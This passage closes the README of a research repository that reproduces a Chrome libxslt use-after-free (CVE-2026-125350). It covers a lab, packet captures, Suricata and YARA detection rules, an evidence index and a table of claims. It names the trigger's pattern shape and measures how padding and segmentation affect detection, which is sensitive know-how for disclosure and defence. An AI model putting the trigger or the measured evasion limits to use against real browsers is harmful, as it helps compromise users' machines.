| Not tested | The variable after the predicates. White space around `=` and a body in fewer, larger segments: the rule file describes these two from reading its expression, not from a run. A body larger than `response-body-limit` (100kb by default), which Suricata does not inspect past the limit. 1400-byte segments on a network path that is not loopback: every segmented input is a synthetic pcap | Single-quoted attribute values at the limit: the measurement uses double quotes. A namespace prefix with characters other than ASCII letters, digits, dot, hyphen and underscore, which the rule file lists as something the rule cannot see |
| Not tested, and expected to hide the stylesheet from both rules | brotli or zstd bodies, HTTP/3, UTF-16, patterns behind character or entity references, stylesheets built by script | The same, where they apply to a file |

- **Not quiet on everything benign.** Both rules match `fo/footnote.xsl` and `fo/xref.xsl` of DocBook XSL 1.79.2, which number footnotes with a multi-predicate count pattern that reads global parameters: the trigger's shape, used harmlessly. Triage steps are in [detection/README.md](detection/README.md).
- **No variation of my own was run against the lab.** The variation evidence is the fix commit's regression stylesheets, for which the evidence holds no lab run, plus the second live capture and the four synthetic pcaps of `sheet.xsl`. Both live captures share one pattern string.

## Capture

[`capture/`](capture/) holds three live captures taken with tcpdump on the lab host's loopback: `exploit.pcap` (union, renderer crashed), `exploit-import.pcap` and `control.pcap` (harmless pattern, page rendered). Checksums are in [capture/README.md](capture/README.md). The first, replayed against the current rules (`evidence/detection/run_tests_macos_run1.txt`):

```
$ docker run --rm -v "$PWD":/work:ro -w /work --entrypoint sh jasonish/suricata:8.0.8@sha256:d5a3a1785299ab40918d465e54fedf8e3afeeedba76bb64b0cc74dbc20bda2c3 -c "suricata -r capture/exploit.pcap -S detection/cve-2026-125350.rules -l /tmp -k none >/tmp/suricata.out 2>&1; tail -n 2 /tmp/suricata.out >&2; cat /tmp/fast.log"
i: suricata: Signal Received.  Stopping engine.
i: pcap: read 1 file, 21 packets, 5443 bytes
11/11/2026-09:58:28.198653  [**] [1:1125350:5] CVE-2026-125350 Google Chrome libxslt xsl:number pattern with consecutive predicates and a variable reference in served stylesheet [**] [Classification: Attempted User Privilege Gain] [Priority: 1] {TCP} 127.0.0.1:38080 -> 127.0.0.1:37200
alerts for sid 1125350: 1
```

## Evidence

[evidence/INDEX.md](evidence/INDEX.md) lists every file with the command that produced it and the claim it supports. All dates are UTC.

| Files in `evidence/` | Date (UTC) | Made with |
|---|---|---|
| Reproduction runs: every file not named below | 2026-11-11 | `poc.py` and `check.py` as shipped; `setup.py` as it was before 2026-11-13 (sha256 of each in the index) |
| `longpath_*`, `failure_step6_setup.txt`, `rerun_*`, `local_r2_*` | 2026-11-13 | the `setup.py` shipped here. Three things changed in it that day: the control socket of the ssh forwards moved out of the clone directory, a setup that stops part-way now stops what it started, and `--crash-report` reads all minidumps in one session. Target build and start did not change, and the stable pair was run again (see Tested on) |
| `detection/benign_*` | 2026-11-12 | the lab, target `stable-vuln` |
| `detection/measure_limits.txt` (macOS arm64), `detection/measure_limits_linux.txt` (Linux x86_64 lab host) | 2026-11-15 | `detection/tests/measure_limits.sh` on the rules shipped here |
| `detection/run_tests_macos_run1.txt` to `detection/run_tests_macos_run3.txt` (macOS arm64), `detection/run_tests_linux_run1.txt` to `detection/run_tests_linux_run3.txt` (Linux x86_64 lab host) | 2026-11-15 | the rules shipped here, 40 checks. The run files of the two earlier revisions of the rules were removed when the rules changed |

## What this repo proves (and does not prove)

| Claim | Status | Evidence |
|---|---|---|
| Opening the served XML document crashes the renderer of stock Google Chrome 157.0.8103.38 (stable `.deb`, Linux x86_64, sandbox on, no feature switch) | **Confirmed** | `evidence/poc_stable-vuln_union.txt`, `evidence/poc_stable-vuln_import.txt`, `evidence/crash_stable-vuln.txt`; control: `evidence/poc_stable-patched_union.txt`, `evidence/poc_stable-patched_import.txt`, `evidence/crash_stable-patched.txt` |
| The renderer's own crash report shows SIGTRAP (union) and SIGSEGV (import) in a `ptype=renderer` process of version 157.0.8103.38 | **Proven** | `evidence/crash_stable-vuln.txt` |
| The same PoC does nothing to 157.0.8103.50 | **Confirmed** | `evidence/poc_stable-patched_union_rounds20.txt`, `evidence/poc_stable-patched_import_rounds20.txt`, `evidence/poc_cft-patched_union.txt`, `evidence/poc_cft-patched_import.txt` |
| The bug is a heap use after free in `xmlXPathFreeObject()` on a stale pointer held by `xsltTestCompMatchDirect()`, freed by a nested call reached through a lazily evaluated global variable | **Confirmed** on ASAN r1738200 against r1738201, not on Chrome 157 | `evidence/crash_asan-vuln.txt`, `evidence/crash_asan-patched.txt` |
| Two separate ways leave the stale object in the slot: an uncleared union alternative, and a slot shared between imported stylesheets. They are the two cases of the fix commit's crash test; what is shown here is where the stale object was allocated in each | **Proven** | `evidence/crash_asan-vuln.txt` (allocation stacks of report 1 and report 2) |
| A count pattern with a single predicate does not trigger | **Proven** | `evidence/poc_stable-vuln_control.txt` |
| XSLT runs by default in stable 157.0.8103.38 with compiled-in defaults and is off in Chrome for Testing 157.0.8103.38 as shipped | **Proven** | `evidence/setup.txt`, `evidence/check_stable-vuln.txt`, `evidence/poc_cft-noflag_union.txt`, `evidence/check_cft-noflag.txt` |
| The trigger fires every time | **Proven** | `evidence/poc_stable-vuln_union_rounds20.txt`, `evidence/poc_stable-vuln_import_rounds20.txt`, `evidence/poc_cft-vuln_union_rounds20.txt`, `evidence/poc_cft-vuln_import_rounds20.txt` |
| `check.py` separates vulnerable from patched without triggering | **Proven** | `evidence/check_*.txt`, `evidence/check_*.json` |
| Lab and PoC also work on a single Linux host with no ssh | **Proven** | `evidence/local_*.txt` (2026-11-11), `evidence/local_r2_*.txt` (2026-11-13, the `setup.py` shipped here) |
| Remote-mode setup does not depend on the depth of the clone directory: from a path of 145 characters it ends in `Lab is up.`, and `check.py` and `poc.py` give the same results through that lab (crash on 157.0.8103.38, nothing on 157.0.8103.50) | **Proven** | `evidence/longpath_setup.txt`, `evidence/longpath_check_stable-vuln.txt`, `evidence/longpath_check_stable-patched.txt`, `evidence/longpath_poc_stable-vuln_union.txt`, `evidence/longpath_poc_stable-patched_union.txt`, `evidence/longpath_crash_stable-vuln.txt`, `evidence/longpath_crash_stable-patched.txt`, `evidence/longpath_teardown.txt` |
| A setup that fails at the port-forward step, after the targets were started, stops them itself and leaves no container, listener or forward | **Proven** for one way of failing: a local port taken by another process | `evidence/failure_step6_setup.txt` |
| The ordinary directory still works, and a second setup over a running lab restarts it cleanly | **Proven** | `evidence/rerun_setup_first.txt`, `evidence/rerun_setup_second.txt`, `evidence/rerun_teardown.txt` |
| Both rules fire on both live attack captures and are quiet on the control and live benign captures; they match 2 of 1128 DocBook XSL stylesheets | **Proven** | `evidence/detection/run_tests_macos_run1.txt` to `run_tests_macos_run3.txt` (macOS arm64), `evidence/detection/run_tests_linux_run1.txt` to `run_tests_linux_run3.txt` (Linux x86_64) |
| A 60 kB comment after the root start tag, between the namespace declaration (byte 63) and the `xsl:number` (byte 60,537), delivered in 1400-byte segments, does not hide the stylesheet from the Suricata rules: 1 alert on each Suricata version. The first revision of the rule, kept as `detection/tests/rev1_fixture.txt`, gives 0 alerts on the same pcap with Suricata 8.0.8, so the check tells the revisions apart | **Proven** on a synthetic pcap, not a lab run | the same six files |
| Neither 8 kB of white space between the element name and `count`, nor 700 union alternatives in the `count` value (3,533 bytes from `count=` to `][`), hides the stylesheet: 1 alert on each Suricata version and 1 YARA match for each | **Proven** on synthetic pcaps and files, not lab runs | the same six files |
| The YARA rule matches a stretch of up to 4,096 bytes from the keyword to the last character its regex needs, and nothing longer: 817 five-byte union alternatives match and 818 do not; the cutoff is the same with `count` and `from`, with the variable before or after the predicates, with white space before or after `=`, and on both hosts | **Proven** on files generated by the script, not lab runs | `evidence/detection/measure_limits.txt`, `evidence/detection/measure_limits_linux.txt` |
| In 1400-byte segments, every saved run of the Suricata rules alerted on a `count` value of up to 7,500 five-byte union alternatives (about 37.5 kB from keyword to `][`): 3 runs of 3 on Suricata 8.0.8 and on 7.0.17, on both hosts, at 700, 2,000, 4,000, 6,000, 7,000 and 7,500. Above 7,500 some runs miss | **Proven** on synthetic pcaps, not lab runs | the same two files |
| Code execution in the renderer (the disclosed impact), or any controlled use of the freed object | **Not reached** | Not attempted. The work stopped at the crash and the sanitizer report. |
| Symbolized stacks for the stock 157 binaries | **Not reached** | They ship no symbols. Frames are module offsets; function names come from the ASAN build only. |
| Windows and macOS builds, and versions other than 157.0.8103.38 and 157.0.8103.50 | **Not reached** | Not tested. |
| XSLT state under Google's live field-trial configuration | **Not reached** | Not tested; the lab browsers never fetch it. |
| Upstream libxslt outside Chrome | **Not reached** | Not tested. |
| The documents served from a non-loopback origin | **Not reached** | Not tested. Every run fetched them from `http://127.0.0.1:38080` (host networking, see Lab deviations). |
| Remote mode with a Linux machine on the local side, and the lab without `--no-first-run`, `--no-default-browser-check` or `--enable-logging=stderr` | **Not reached** | Not run. |
| Which variant matches which of the two bug reports the fix closes (both are listed under this CVE), and which one the exploit in the wild used | **Not reached** | Unknown and not claimed. Chromium bug 582442907 is restricted. |
| Suricata on a long stretch with white space around `=`, with the variable after the predicates, or with the body in fewer, larger segments | **Not reached** | Not run. The rule file describes the first and the last from reading its expression. |
| The rules on a network path that is not loopback, on bodies larger than `response-body-limit`, and on the transports and encodings listed under Limits | **Not reached** | Not tested. |
| A rule variation of my own, run against the lab, and a lab run of the fix commit's regression stylesheets | **Not reached** | The evidence holds no such run; see the note on variation under Detection rules. |

- **Proven**: backed by an evidence file in this repository.
- **Confirmed**: also checked against the patched build.
- **Not reached**: not demonstrated here; the row says what was tried, or that it was not tried. This does not mean it is impossible.

## References

| Reference | Link |
|---|---|
| Advisory: Chrome Releases, Stable Channel Update for Desktop, 2026-11-09 | https://chromereleases.googleblog.com/2026/11/stable-channel-update-for-desktop_018223192.html |
| CVE record. CVSS 3.1 vector from CISA: `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H` (8.8 High). Added to CISA KEV on 2026-11-10. | https://cveawg.mitre.org/api/cve/CVE-2026-125350 |
| Fix commit on the release branch, "[M157-mini] Fix use-after-free in libxslt direct pattern match cache", 2026-11-07; a cherry-pick of main commit 61cab3f77203671e09402e68738aa217632aed8d (r1738201). It also adds a crash test with a union case and an import case, `third_party/blink/web_tests/external/wpt/xml/xslt/xslt-number-pattern-cache-reentrancy-crash.html` | https://github.com/chromium/chromium/commit/049750111b1e5c11565c792b2aeed5541f332bad |
| Vulnerable function, `xsltTestCompMatchDirect()` at tag 157.0.8103.38 | https://github.com/chromium/chromium/blob/157.0.8103.38/third_party/libxslt/src/libxslt/pattern.c#L524-L619 |
| Chromium bug 582442907 (restricted as of 2026-11-11) | https://issues.chromium.org/issues/582442907 |
| `XSLTEnabled` policy definition at tag 157.0.8103.38 | https://github.com/chromium/chromium/blob/157.0.8103.38/components/policy/resources/templates/policy_definitions/Miscellaneous/XSLTEnabled.yaml |

## Changelog

- 2026-11-13: published.
- 2026-11-15: the Suricata alert messages and flowbit names no longer carry a tag in front of the CVE ID (the alerting rule is now rev 5, the two setters rev 2), and the test scripts' work directory moved to `.lab/detect-run/`. The rule tests and limit measurements were run again on both hosts: all 40 checks gave the expected number in every run, and the stated limits hold. The run files are now named `run_tests_macos_*` and `run_tests_linux_*`.

## License

Part of [achilles-heel](https://github.com/al4n4n/achilles-heel), licensed under [CC BY 4.0](../LICENSE). Anyone who shares or builds on this work, commercial or not, must credit "al4n4n (Dadb0d)" and link to https://github.com/al4n4n/achilles-heel. See [Attribution](../README.md#attribution) and [DISCLAIMER](../DISCLAIMER.md).
